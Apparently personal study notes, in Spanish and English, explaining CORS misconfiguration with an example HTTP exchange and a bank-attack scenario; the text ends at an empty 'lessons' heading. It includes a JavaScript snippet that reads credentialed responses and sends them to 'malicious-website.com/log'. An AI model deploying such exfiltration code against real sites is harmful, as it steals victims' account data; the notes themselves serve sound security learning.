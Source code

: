 ```yaml
---
layout: default
title: Theory
---
```

https://portswigger.net/web-security/cors

**Same-origin policy** ->  It generally allows a domain to issue requests to other domains, but not to access the responses.
CORS -> Headers shared between domains to allow full cross-origin access.

**Ejemplo práctico de mala implementación de CORS :**

```request
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=... (la cookie de sesión del usuario)
```

```request
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
```

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
    location='//malicious-website.com/log?key='+this.responseText;
};
```

Envía una solicitud GET a https://vulnerable-website.com/sensitive-victim-data.
req.withCredentials = true asegura que las cookies de sesión del usuario se incluyan en la solicitud.
Cuando recibe la respuesta (this.responseText), redirige al navegador a malicious-website.com/log, enviando los datos sensibles obtenidos en la respuesta como parte de la URL.

**Mistakes often arise when implementing CORS origin whitelists. Some organizations decide to allow access from all their subdomains (including future subdomains not yet in existence). And some applications allow access from various other organizations' domains including their subdomains.**

**How to test cors** -> https://zguyun.com/blog/how-to-test-cors-with-postman/

__________________________________________________________________________

Una mala implementación de CORS puede ser un problema grave de seguridad porque permite que un sitio web malicioso realice solicitudes a una API o aplicación web en nombre del usuario sin su conocimiento o consentimiento. Esto puede dar lugar a la filtración de datos sensibles y comprometer la cuenta o los datos del usuario en el servidor. 

### Escenario de peor caso de una mala implementación de CORS

Imagina una aplicación web bancaria (por ejemplo, `https://bank.com`) que expone una API para consultar el saldo, hacer transferencias, actualizar datos de perfil, etc. Supongamos que el servidor tiene una configuración de CORS insegura. Aquí tienes cómo se vería un ataque en este escenario:

1. **Configuración insegura de CORS en el servidor**:
   - La API de `https://bank.com` permite solicitudes CORS desde cualquier origen al reflejar el valor de la cabecera `Origin` en `Access-Control-Allow-Origin`.
   - Además, la cabecera `Access-Control-Allow-Credentials` está configurada en `true`, permitiendo el envío de cookies de sesión o tokens de autenticación en solicitudes CORS.

2. **El usuario inicia sesión en `https://bank.com`**:
   - El usuario se autentica en el sitio y se le asigna una cookie de sesión que autoriza sus solicitudes a la API de `https://bank.com`.

3. **El atacante crea un sitio malicioso**:
   - El atacante crea un sitio malicioso, `https://malicious-website.com`, que contiene un script para acceder a la API de `https://bank.com` usando las credenciales del usuario.

4. **El usuario visita el sitio malicioso**:
   - El usuario visita `https://malicious-website.com` mientras aún está autenticado en `https://bank.com` en otra pestaña o en la misma sesión del navegador.

5. **El sitio malicioso envía una solicitud CORS a la API del banco**:
   - El script en `https://malicious-website.com` realiza una solicitud a `https://bank.com/api/accountDetails`, incluyendo la cookie de sesión del usuario, gracias a `credentials: "include"`.
   - Debido a la configuración insegura de CORS, el servidor en `https://bank.com` acepta la solicitud de `https://malicious-website.com` y responde con los detalles de la cuenta del usuario.

6. **El atacante obtiene datos sensibles del usuario**:
   - El sitio malicioso ahora tiene acceso a la respuesta de la API de `https://bank.com`, que contiene datos confidenciales, como el saldo, transacciones o información personal del usuario.

7. **Posibilidad de operaciones maliciosas**:
   - Si la API permite operaciones como transferencias bancarias o cambios de información, el sitio malicioso podría enviar solicitudes para transferir dinero, actualizar la dirección del usuario, o cualquier otra acción que el usuario autorizado puede realizar.

### Consecuencias de esta configuración insegura:

- **Acceso no autorizado a datos personales**: El atacante puede obtener información sensible, como saldo bancario, historial de transacciones, o cualquier dato expuesto a través de la API.
- **Robo de dinero**: Si la API permite transacciones bancarias, el atacante podría realizar transferencias en nombre del usuario, lo cual tendría un impacto financiero directo.
- **Modificación de datos**: El atacante podría cambiar detalles personales, como el número de teléfono o la dirección, lo cual podría tener repercusiones en el acceso futuro del usuario.
- **Exposición de otras vulnerabilidades**: Si el sistema tiene otras vulnerabilidades (como inyección de SQL o vulnerabilidades de autenticación), el atacante podría explotarlas con más facilidad al tener acceso a la API desde cualquier origen.

### Lecciones de seguridad

